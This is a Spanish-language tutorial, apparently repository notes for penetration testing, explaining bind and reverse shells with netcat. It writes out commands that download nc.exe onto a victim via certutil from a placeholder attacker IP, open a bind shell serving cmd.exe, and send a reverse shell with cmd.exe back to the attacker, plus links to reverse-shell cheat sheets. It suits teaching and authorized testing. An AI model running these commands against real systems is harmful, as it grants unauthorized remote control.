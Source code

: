 Una bind shell es cuando el atacante se conecta mediante netcat a un cliente netcat corriendo en un puerto en la máquina víctima. El principal problema de esto es que normalmente el firewall bloquea las conexiones entrantes por lo que es preferido por parte de los atacantes usar reverse_shells

NOTA: No es necesario usar netcat cliente para establecer una conexión con un netcat listener, se pueden usar otras aplicaciones como bash. En este repo tienes muchas formas de conectarte https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Otro recurso donde se generar las rev shell ya con la ip y el lenguaje o binario que escojamos para establecer la conexión es: https://www.revshells.com


## Cómo crear una bind_shell

1. Si no tiene instalada la máquina víctima netcat por defecto, como en el caso de windows, debemos transferir el binario. Para ello, por ejemplo vamos a la ruta /usr/share/windows-binaries y creamos un servidor simple con python `python -m SimpleHTTPServer 80`. En la máquina víctima usamos `certutil -urlcache -f http://ipdelamaquinaatacante/nc.exe nc.exe`. Ya disponemos del binario en la máquina víctima.
2. Ahora nos ponemos por escucha en la máquina target mediante: `nc -nvlp 1234 -e cmd.exe` el parámetro -e es para ejecutar un programa en este caso un cmd por lo que las máquinas que se conecten obtendrán un cmd.
3. Nos ejecutamos desde la máquina atacante con nc cliente al nc servidor de la máquina target. `nc -nv <ipmaquinavictima> 1234`
4. Listo ya tenemos acceso mediante una bindshell.

### Cómo crear una reverse_shell

1. En la máquina atacante nos ponemos en escucha : `nc -nvlp 1234.
2. Si no tiene instalada la máquina víctima netcat por defecto, como en el caso de windows, debemos transferir el binario. Para ello, por ejemplo vamos a la ruta /usr/share/windows-binaries y creamos un servidor simple con python `python -m SimpleHTTPServer 80`. En la máquina víctima usamos `certutil -urlcache -f http://ipdelamaquinaatacante/nc.exe nc.exe`. Ya disponemos del binario en la máquina víctima.
3.  Nos conectamos a la máquina atacante desde la máquina víctima y ejecutamos un cmd.exe `nc -nv <ipatacante> 1234 -e cmd.exe`
4. Listo ya tenemos una reverse shell ya que la máquina target se conectó a nosotros y ejecutó un cmd.exe

